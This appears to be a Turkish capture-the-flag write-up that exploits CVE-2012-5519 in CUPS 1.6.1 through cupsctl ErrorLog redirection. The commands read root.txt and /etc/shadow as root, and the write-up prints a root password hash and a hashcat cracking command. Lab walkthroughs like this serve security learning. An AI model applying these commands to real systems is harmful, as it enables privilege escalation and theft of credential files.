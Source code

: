 ![Pasted image 20250208173558.png](/img/user/resimler/Pasted%20image%2020250208173558.png)

“ Server ” bölümünde çeşitli günlükleri gösteren bağlantılar var. Configuration dosyasını düzenlemeye ve kaydetmeye çalıştığımda, auth sorusu çıkıyor ki bende auth yok.

Error log'da daha önce yaptığım isteği görebiliyorum:

![Pasted image 20250208173857.png](/img/user/resimler/Pasted%20image%2020250208173857.png)

### CVE-2012-5519

#### Background
CUP'lardaki güvenlik açıkları için yapılan bir araştırma CVE-2012-5519, CUPS 1.6.1'de root olarak okunan dosya sonucunu veriyor ki bu da buradaki sürümle eşleşiyor.

Bu [makale](https://www.infosecmatter.com/metasploit-module-library/?mm=post/multi/escalate/cups_root_file_read) hem Metasploit modülünün nasıl çalıştırılacağını göstermek hem de nasıl başarısız olabileceğini açıklamak için gerçekten güzel bir iş çıkarıyor.

Exploit [kaynağına](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/multi/escalate/cups_root_file_read.rb) bakıldığında, error log'u farklı bir dosyaya (datastore['FILE']) ayarlamak için mevcut oturumda cupsctl (ctl_path değişkenine kaydedilmiş) kullanılıyor:

```
cmd_exec("#{ctl_path} ErrorLog=#{datastore['FILE']}")
```

#### Read Flag

Yapabileceğim ilk şey root.txt dosyasını almak. Onu error log olarak ayarlayacağım:

```
lp@antique:~$ cupsctl ErrorLog=/root/root.txt
```


![Pasted image 20250208174535.png](/img/user/resimler/Pasted%20image%2020250208174535.png)


#### Shell Failures

Dosya sistemindeki kullanıcıların hash'lerini almak için /etc/shadow dosyasını okuyabiliyorum:

```
lp@antique:/dev/shm$ cupsctl ErrorLog=/etc/shadow
lp@antique:/dev/shm$ curl 127.0.0.1:631/admin/log/error_log?
root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
...[snip]...
```

Hash'i olan tek kullanıcı root. Bunu hashcat kullanarak kırmayı deneyebilirim, bu tam satırı bir dosyaya (hash) koyup çalıştırabilirim:

```
$ /opt/hashcat-6.2.5/hashcat.bin hash /usr/share/wordlists/rockyou.txt --user
```
